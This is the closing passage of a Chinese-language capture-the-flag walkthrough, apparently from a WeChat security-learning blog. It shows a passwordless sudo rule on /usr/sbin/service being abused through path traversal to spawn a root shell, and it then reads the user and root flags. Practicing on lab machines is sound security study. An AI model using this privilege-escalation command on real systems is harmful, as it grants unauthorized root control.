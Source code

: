 ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

发现/usr/sbin/service以root用户执行时不需要密码，直接提权

```
`sudo -u root /usr/sbin/service ../../bin/bash``id`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

成功提权到root用户，查看下flag

```
`cd /home``ls``cd thor``ls``cat user.txt`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

拿到user.txt

```
`cd /root``ls``cat root.txt`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

拿到root.txt，游戏结束

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

END

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

**这篇文章到这里就结束了,喜欢打靶的小伙伴可以关注"伏波路上学安全"微信公众号,或扫描下面二维码关注,我会持续更新打靶文章,让我们一起在打靶中学习进步吧.**

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)